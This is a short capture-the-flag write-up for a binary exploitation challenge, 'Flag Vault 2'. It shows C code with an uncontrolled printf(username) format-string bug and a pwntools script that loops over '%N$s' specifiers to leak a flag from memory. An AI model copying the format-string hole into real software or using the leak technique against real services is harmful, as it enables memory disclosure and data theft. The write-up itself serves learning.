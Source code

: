 ```yaml
---
title: "Flag Vault 2"
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: flag: THM{REDACTED}
---
```

> No description.

---

Given a binary, we can see that it is a simple program that reads a username. The flag is read from a file but is never printed to the screen. The user's input is printed to the screen as well.

```c
void print_flag(char *username){
        FILE *f = fopen("flag.txt","r");
        char flag[200];

        fgets(flag, 199, f);
        //printf("%s", flag);
	
	//The user needs to be mocked for thinking they could retrieve the flag
	printf("Hello, ");
	printf(username);
	printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
	printf("Yours truly,\nByteReaper\n\n");
}
```

Ah, another classic format string vulnerability. We can use the `%s` format string to read the flag from memory. We can use the following script to read the flag:

```py
from pwn import *

binary = './pwn21'

context.log_level = 'debug'
context.binary = binary
context.endian = 'big'

for i in range(32):
    e = ELF(binary)
    r = process(binary)
    # r = remote('10.10.191.2', 1337)

    r.sendlineafter(b'Username: ', flat([
        f"%{i}$s",
    ]))

    r.interactive()
```

